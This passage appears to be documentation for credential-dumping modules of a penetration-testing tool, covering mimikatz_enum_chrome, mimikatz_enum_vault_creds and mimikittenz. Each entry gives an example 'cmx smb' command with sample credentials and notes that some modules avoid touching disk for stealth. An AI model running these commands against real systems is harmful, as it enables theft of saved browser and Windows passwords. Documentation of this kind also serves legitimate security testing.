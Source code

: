 ## mimikatz_enum_chrome      
Executes PowerSploit's Invoke-Mimikatz.ps1 script (Mimikatz's DPAPI Module) to decrypt saved Chrome passwords  
        Pros and cons vs the standard enum_chrome module:  
            + Opsec safe, doesn't touch disk  
            - Tends to error out and/or not decrypt all stored credentials (not sure why exactly, should work perfectly in theory)  

Multiple_Host | Requires LA | Requires DA | Opsec_safe
|---|---|---|---|
true | true | false | true  

**Options:**
```

```
**Example Usage:**
```
~# cmx smb 192.168.1.121 -u tcat -p 'User!23' -M mimikatz_enum_chrome
```
**Expected Results:**
```

~# 
```
--------------------------------------------------------------------------------------------------------------------------------------------------------
## mimikatz_enum_vault_creds 
Executes PowerSploit's Invoke-Mimikatz.ps1 script and decrypts stored credentials in Windows Vault/Credential Manager

Multiple_Host | Requires LA | Requires DA | Opsec_safe
|---|---|---|---|
true | true | false | true 

**Options:**
```

```
**Example Usage:**
```
~# cmx smb 192.168.1.121 -u tcat -p 'User!23' -M mimikatz_enum_vault_creds
```
**Expected Results:**
```

~# 
```
--------------------------------------------------------------------------------------------------------------------------------------------------------
## mimikittenz               
Executes the Mimikittenz script

Multiple_Host | Requires LA | Requires DA | Opsec_safe
|---|---|---|---|
true | true | false | true 
